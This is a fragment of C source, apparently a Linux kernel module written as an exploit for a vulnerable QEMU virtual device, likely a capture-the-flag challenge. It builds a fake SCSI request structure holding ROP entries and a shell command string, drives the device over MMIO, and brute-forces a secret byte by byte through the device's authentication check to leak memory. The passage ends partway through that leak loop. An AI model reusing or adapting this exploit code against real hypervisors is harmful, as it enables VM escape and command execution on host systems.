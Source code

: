 ```c
    void* aiocb;
    void* sg;
    void* tqe_next;
    void* tqe_prev;
    void* info;
    u64 cancel;
    u64 notify;
    u64 next;
    u64 rop[3];
    char shell_cmd[0x28]; // padded to same size as sizeof(SCSIDiskReq)
};


static void __iomem* mmio;

u32 read4(u64 off) {
    return ioread32(mmio+off);
}
void write4(u64 off, u32 val) {
    iowrite32(val, mmio+off);
}
void setaddr(void* addr) {
    u64 phys = virt_to_phys(addr);
    if (phys >= 0x100000000)
        printk(KERN_INFO "[!!!] %p (0x%llx) physical address not 32bit\n", addr, phys);
    write4(0x14, phys);
}

void auth(void) {
    write4(4, 'B');
    write4(4, 'L');
    write4(4, 'U');
    write4(4, 'E');
}

void send_req(struct req_head* req) {
    u64 phys = virt_to_phys(req);
    write4(0, phys>>32);
    write4(8, phys&0xffffffff);
}

void get_reply(void* dst) {
    setaddr(dst);
    write4(0x18, 0);
}

void add_cmd_data(void* data, u64 len) {
    setaddr(data);
    write4(0x1c, len);
}

// assumed called with pwidx == 4
void leakbytes(u64 nbytes, void* dst) {
    u8* out = dst;
    u64 byte;
    for (byte = 0; byte < nbytes; byte++) {
        u64 c;
        for (c = 0; c < 0x100; c++) {
            if (c) {
                u64 i;
                auth();
                for (i = 0; i < byte; i++)
                    write4(4, out[i]);
```
